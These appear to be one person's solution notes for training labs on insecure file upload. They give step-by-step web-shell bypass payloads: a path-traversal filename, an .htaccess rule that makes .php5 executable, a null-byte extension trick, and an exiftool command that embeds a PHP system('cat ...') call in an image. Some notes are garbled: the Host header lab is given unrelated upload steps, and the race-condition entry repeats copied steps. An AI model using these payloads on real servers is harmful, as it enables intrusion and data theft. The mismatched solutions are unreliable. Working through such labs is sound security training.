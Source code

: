 ```
Lab: Remote code execution via web shell upload

APPRENTICE

This lab contains a vulnerable image upload function. It doesn't perform any validation on the files users upload before storing them on the server's filesystem.

To solve the lab, upload a basic PHP web shell and use it to exfiltrate the contents of the file /home/carlos/secret. Submit this secret using the button provided in the lab banner.

You can log in to your own account using the following credentials: wiener:peter 
```

1. Upload webshell.php
2. cat /home/carlos/secret

---

```
Lab: Host header authentication bypass

APPRENTICE

This lab makes an assumption about the privilege level of the user based on the HTTP Host header.

To solve the lab, access the admin panel and delete the user carlos. 
```

1. Upload webshell.php
2. Change content-type to image/jpeg
3. cat /home/carlos/secret

---

```
Lab: Web shell upload via path traversal

PRACTITIONER

This lab contains a vulnerable image upload function. The server is configured to prevent execution of user-supplied files, but this restriction can be bypassed by exploiting a secondary vulnerability.

To solve the lab, upload a basic PHP web shell and use it to exfiltrate the contents of the file /home/carlos/secret. Submit this secret using the button provided in the lab banner.

You can log in to your own account using the following credentials: wiener:peter 
```

1. Upload webshell.php
2. Look that there are no restriction on the upload file functionnality but the php is not interpreted on the location where the file is uploaded
3. Change the filename to perform path traversal in order to uplaod the file where the php can be interpreted
4. filename="..%2Fwebshell.php"
5. Go to files/webshell.php
6. enjoy your RCE
7. cat /home/carlos/secret


---

```
Lab: Web shell upload via extension blacklist bypass

PRACTITIONER

This lab contains a vulnerable image upload function. Certain file extensions are blacklisted, but this defense can be bypassed due to a fundamental flaw in the configuration of this blacklist.

To solve the lab, upload a basic PHP web shell, then use it to exfiltrate the contents of the file /home/carlos/secret. Submit this secret using the button provided in the lab banner.

You can log in to your own account using the following credentials: wiener:peter 
```

1. Upload webshell.php
2. Bypass restriciton with .php5
3. Add this extension via .htaccess as executable :
```
filename=".htaccess"
Content-Type : text/plain
AddType application/x-httpd-php .php5
```
4. Reload your webshell and now it's interpreted
5. cat /home/carlos/secret

---

```
Lab: Web shell upload via obfuscated file extension

PRACTITIONER
LAB Not solved

This lab contains a vulnerable image upload function. Certain file extensions are blacklisted, but this defense can be bypassed using a classic obfuscation technique.

To solve the lab, upload a basic PHP web shell, then use it to exfiltrate the contents of the file /home/carlos/secret. Submit this secret using the button provided in the lab banner.

You can log in to your own account using the following credentials: wiener:peter 
```

1. Upload webshell.php
2. See that only JPEG and PNG are allowed
3. Bypass extension verification with : .php%00.png


---

```
Lab: Remote code execution via polyglot web shell upload

PRACTITIONER

This lab contains a vulnerable image upload function. Although it checks the contents of the file to verify that it is a genuine image, it is still possible to upload and execute server-side code.

To solve the lab, upload a basic PHP web shell, then use it to exfiltrate the contents of the file /home/carlos/secret. Submit this secret using the button provided in the lab banner.

You can log in to your own account using the following credentials: wiener:peter 
```

1. Upload webshell.php
2. Try to bypass mime type check with :

```bash
exiftool -Comment="<?php echo 'start ' .  system('cat /home/carlos/secret') . ' END'; ?>" dices.png -o polyglot4.php
```

3. Upload polyglot4.php
4. Enjoy RCE

---


```
Lab: Web shell upload via race condition

EXPERT

This lab contains a vulnerable image upload function. Although it performs robust validation on any files that are uploaded, it is possible to bypass this validation entirely by exploiting a race condition in the way it processes them.

To solve the lab, upload a basic PHP web shell, then use it to exfiltrate the contents of the file /home/carlos/secret. Submit this secret using the button provided in the lab banner.

You can log in to your own account using the following credentials: wiener:peter 
```

1. Intercept POST request > put it in intruder
2. Intercept GET request > put it in the intruser
3. Sniper mode, null payload, continue indefinitely
4. Run both request (POST/GET) in the same time and look the GET request

3. Upload polyglot4.php
4. Enjoy RCE

---
